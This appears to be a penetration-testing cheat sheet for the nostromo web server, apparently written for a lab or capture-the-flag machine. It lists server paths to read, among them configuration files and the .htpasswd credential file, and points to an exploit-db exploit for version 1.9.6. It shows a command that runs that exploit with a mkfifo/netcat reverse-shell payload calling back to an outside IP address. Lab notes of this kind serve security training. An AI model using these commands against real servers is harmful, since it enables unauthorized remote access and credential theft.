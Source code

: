 # nostromo

## Intesting Paths

```bash
# log file
/var/nostromo/conf/nhttpd.conf

# read HOMEDIRs
# Try accessing http://IP/~username and http://IP/username/*homedirs_public*

# config file
/var/nostromo/conf/*
/var/nostromo/conf/.htpasswd
```

## v1.9.6

```
https://www.exploit-db.com/exploits/47837
$ python ex.py 10.10.10.165 80 "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|bash -i 2>&1|nc 10.10.16.161 6969 >/tmp/f"
```
